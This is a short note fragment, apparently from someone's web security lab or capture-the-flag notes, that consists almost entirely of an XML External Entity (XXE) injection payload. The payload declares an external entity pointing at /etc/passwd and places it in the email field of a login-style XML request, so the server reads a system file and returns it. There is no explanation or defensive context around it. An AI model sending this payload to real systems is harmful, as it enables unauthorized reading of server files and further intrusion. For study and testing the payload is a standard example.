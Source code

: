 payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>
test</name><tel>
123</tel><email>&xxe;</email><password>J7MFEBnJGtqVV2V</password></root>
```


![[Pasted image 20210611185527.png]]
